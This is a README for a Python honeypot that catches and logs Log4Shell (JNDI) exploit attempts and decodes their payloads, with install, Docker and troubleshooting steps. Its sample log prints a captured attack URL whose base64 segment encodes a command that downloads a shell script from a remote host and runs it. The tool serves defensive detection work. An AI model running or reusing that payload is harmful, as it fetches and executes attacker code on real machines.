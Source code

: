 # log4j_catcher

Log4j exploit catcher, detect Log4Shell exploits and try to get payloads.
This is a basic python server that listen on a port and logs information when a wild log4j exploit appears

The [Phorcys](https://github.com/PiRanhaLysis/Phorcys) dependency is used to decode payload automatically and then match with Yara rules.

## Installation

### Dependancies

```shell
sudo apt install protobuf-compiler
sudo apt install libcurl4-nss-dev libpython3.9-dev libnss3 libnss3-dev
```
The previous command works for python3.9 versions, you should change to the proper version you are using. However, the code is made for python3.7 or higher. 

```shell
pip install -r requirements.txt
```

## Running

For ports that don't require TLS

with python:
```shell
python3 detector.py [port]
```

with docker:
```shell
docker build -t log4j_catcher .
docker run -itp 8080:8080 --env PORT=8080 log4j_catcher
```

For services with TLS it is recommended to have another component to handle the TLS protocol.
I typically run NGINX as a reverse proxy on the port 443 to forward https traffic to the honeypot.

Example:
```shell
$ sudo python3 detector.py 80
2021-12-10 23:39:59,951 INFO:Incoming connection from ('1.2.3.4', 51512)  
2021-12-10 23:40:28,997 INFO:Incoming connection from ('1.2.3.4', 37532)   
2021-12-11 03:53:36,729 INFO:Found payload jndi from ('45.137.21.9', 55378)                        
2021-12-11 03:53:36,729 INFO:URL: 45.137.21.9:1389/Basic/Command/Base64/d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9saC5zaA==
```

Data is logged into current directory path.

## Troubleshooting

### Ubuntu 18.04 lts

On Ubuntu 18.04 the python3 package is version 3.6, which is incompatible with the script.


To install python in higher version, you can follow this link: https://gist.github.com/plembo/6bc141a150cff0369574ce0b0a92f5e7


Then create a virtualenv using

```shell
$ python3.9 -m venv ./env
$ . ./env/bin/activate
```

It should be possible to install everything from now on.

## Contact

If you run into other issues, you can contact me on twitter @entropyqueen_ with a description of your issue.
